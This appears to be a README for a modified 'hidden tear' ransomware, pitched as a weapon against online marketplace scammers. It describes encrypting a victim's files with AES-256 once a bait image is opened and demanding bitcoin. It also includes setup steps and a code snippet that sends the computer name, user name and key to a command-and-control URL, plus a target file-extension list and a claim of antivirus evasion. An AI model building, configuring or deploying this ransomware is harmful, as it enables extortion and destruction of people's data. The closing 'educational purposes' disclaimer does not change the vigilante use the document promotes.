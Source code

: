          _     _     _     _              _                  
        | |   (_)   | |   | |            | |                 
        | |__  _  __| | __| | ___ _ __   | |_ ___  __ _ _ __ 
        | '_ \| |/ _` |/ _` |/ _ \ '_ \  | __/ _ \/ _` | '__|
        | | | | | (_| | (_| |  __/ | | | | ||  __/ (_| | |   
        |_| |_|_|\__,_|\__,_|\___|_| |_|  \__\___|\__,_|_| 
                                                             -brought to you by:
                                                             -Dehvon C - Independent Security Researcher
                                                             -burp Squad hax0r gang
                                                     
This is a ransomware file crypter (cryptolocker) to test on spammers trying to steal money from users on KSL. 

**Features**
* Uses AES 256 encryption algorithm to encrypt all files on hard drive
* once photo of "credit card" information is opened by scammer, their hard drive will begin encrypting largest, most recently    opened files first & prompt victim for bitcoin payment to get files back 
* Sends encryption key to Command & Control server, for later recovery.
* Encrypted files can only be decrypted using decrypter program with encryption key only I have.
* Creates a text file in Desktop giving message to scammer, explaining that they are known scammers and I am fighting back.
* Small file size (12 KB)
* Doesn't get detected on any antivirus programs as of (08/15/2015) 

**Demonstration Video**

https://www.youtube.com/watch?v=Qa4GnsjQGvQ

**Usage**

* You need to have a web server which supports scripting languages like php,python etc. Change this line with your URL. (You better use Https connection to avoid eavesdropping)

  `string targetURL = "http://www.domain.com/hidden-tear/write.php?info=";`

* The script should writes the GET parameter to a text file. Sending process running in `SendPassword()` function

  ```
  string info = computerName + "-" + userName + " " + password;
  var fullUrl = targetURL + info;
  var conent = new System.Net.WebClient().DownloadString(fullUrl);
  
  ```
* Target file extensions can be change. Default list:

```
var validExtensions = new[]{".txt", ".doc", ".docx", ".xls", ".xlsx", ".ppt", ".pptx", ".odt", ".jpg", ".png", ".csv", ".sql", ".mdb", ".sln", ".php", ".asp", ".aspx", ".html", ".xml", ".psd"};
```
**Legal Warning** 

While this may be helpful for some, there are significant risks. hidden tear may be used only for Educational Purposes. Do not use it as a ransomware! You could go to jail on obstruction of justice charges just for running hidden tear.

